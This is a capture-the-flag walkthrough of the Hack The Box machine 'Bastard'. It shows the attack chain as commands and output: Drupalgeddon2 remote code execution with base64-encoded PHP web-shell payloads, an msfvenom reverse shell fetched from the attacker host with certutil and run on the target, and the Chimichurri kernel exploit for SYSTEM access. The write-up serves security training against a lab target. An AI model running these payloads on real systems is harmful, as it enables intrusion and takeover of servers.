






# HTB - Bastard

#### Ip: 10.10.10.9
#### Name: Bastard
#### Difficulty: Medium

----------------------------------------------------------------------



### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.9 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 09:04 CDT
Nmap scan report for 10.10.10.9
Host is up (0.067s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.86 seconds

```

Navigating to the webpage we can see the site is running Drupal.



And if we take a look at the page source we can see it is running Drupal 7 specifically (Note: Nmap picked this up for us as well):



Based on prior experience, I know that Drupal 7 is has several vulnerabilites. Lets try using drupalgeddon2 to exploit this. The exploit can be found at: https://github.com/dreadlocked/Drupalgeddon2

### Exploitation:

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ ruby drupalgeddon2.rb http://10.10.10.9     
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo VFEMFJVK
[+] Result : VFEMFJVK
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> hostname
Bastard
```

Nice! The exploit worked after trying out a few different payloads. 

Lets use msfvenom to create a reverse shell executable so we can spawn a proper reverse shell:

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.26 LPORT=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Then with both a python HTTP server and a netcat listener going we can fetch and execute the shell:

```text
drupalgeddon2>> certutil -urlcache -split -f "http://10.10.14.26/shell.exe"
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
drupalgeddon2>> .\shell.exe
```

And we catch a shell back:



We can now grab the user.txt flag:



### Privilege Escalation

Because this is such an old machine I'm curious about the kernel version:

```text
C:\inetpub\drupal-7.54>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          1/9/2023, 5:03:02 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                           [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.514 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.514 MB
Virtual Memory: In Use:    581 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

Nice, doesn't look like there's been any patching. Lets try using Chimichurri.exe https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

We can download it from our attacking machine and execute it using:

```text
C:\Temp>certutil -urlcache -split -f "http://10.10.14.26/Chimichurri.exe"
certutil -urlcache -split -f "http://10.10.14.26/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.

C:\Temp>.\Chimichurri.exe 10.10.14.26 444
```

And with a listener going on port 444 we catch a shell back as nt authority\system and grab the final flag:



Thanks for following along!

-Ryan

------------------------------------------------
